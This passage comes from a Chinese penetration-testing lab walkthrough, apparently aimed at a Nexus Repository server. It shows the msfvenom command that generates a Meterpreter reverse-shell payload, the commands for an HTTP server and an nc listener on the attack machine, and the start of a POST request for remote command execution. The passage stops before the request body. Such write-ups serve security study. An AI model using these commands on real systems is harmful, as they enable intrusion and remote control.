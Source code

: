 11.为了拿到稳定的 Meterpreter 会话，进行进一步的扩展内网渗透、提权、持久化，反弹一个更强的 shell：**`Meterpreter`**

- 首先使用 `msfvenom` 生成 payload：

  ```bash
  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.109.10 LPORT=5555 -f elf -o meter.elf
  ```

  <img src="picture/nexus_映射_生成meter.elf文件.png" alt="nexus_映射_生成meter.elf文件" style="zoom: 33%;" />

  参数说明：

  - `LHOST` 是攻击机 IP（必须是靶机能访问的）
  - `LPORT` 是准备监听的端口（如 5555）
  - `-f elf` 生成 Linux ELF 格式文件
  - `-o meter.elf` 指定输出文件名

- kali攻击机开启http服务：

  ```bash
  python3 -m http.server 8000
  ```

  <img src="picture/nexus_映射_Kali攻击机开启http服务.png" alt="nexus_映射_Kali攻击机开启http服务" style="zoom: 33%;" />

- kali攻击机在终端开启端口监听：

  ```bash
  nc -lvnp 6666
  ```

- 利用我们已有的POC，更改其中的ip，端口即可，之后发送POST请求进行远程命令执行：

  ```http
  POST /service/extdirect HTTP/1.1
  Host: 192.168.109.10:9001
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
  Accept: */*
  X-Nexus-UI: true
  Content-Type: application/json
  Referer: http://192.168.109.10:9001/
  Accept-Encoding: gzip, deflate
  X-Requested-With: XMLHttpRequest
  Origin: http://192.168.109.10:9001
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: NXSESSIONID=4d0ca4c3-d8e2-4d22-9e6d-5fd34af7a27a
  Content-Length: 221
  
  ```